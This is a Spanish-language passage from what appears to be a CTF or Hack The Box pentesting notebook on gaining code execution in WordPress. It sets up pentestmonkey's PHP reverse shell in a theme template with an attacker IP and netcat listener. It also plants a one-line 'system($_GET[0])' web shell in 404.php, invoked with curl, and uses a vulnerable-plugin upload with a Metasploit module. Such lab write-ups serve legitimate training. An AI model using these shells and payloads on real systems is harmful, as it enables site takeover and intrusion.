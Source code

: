 vemos que esta ejecutando comandos a nivel de sistema, entonces podemos intentar spawnearnos una shell:

colocamos lo siguiente en la plantilla que es una plantilla de monkey pentester:

[monkey pentester](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

a la plantilla solo se cambia los siguiente:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.41';  // NUESTRA IP
$port = 443;       // PUERTO A LA ESCUCHA
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

y nos colocamos a la escucha con netcat:

```
nc -lvnp 443
```

y obtenemos una conexion reversa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/7.PNG)

PRACTICAR
- [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)
- SPECTRA HTB

o podemos agregar la siguienet linea sin eliminar nada:

```php
system($_GET[0]);
```

y lo invocamos

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

## PLUGIN RCE

Si podemos cargar un plugin en el apartado de Plugins > Upload plugin. Podemos cargar el siguiente archivo [ZIP](https://www.exploit-db.com/exploits/36374). (Plugin vulnerable)

Le damos en activaet plugin y usamos el siguiente payload de matasploit

```bash
use exploit/unix/webapp/wp_slideshowgallery_upload
```

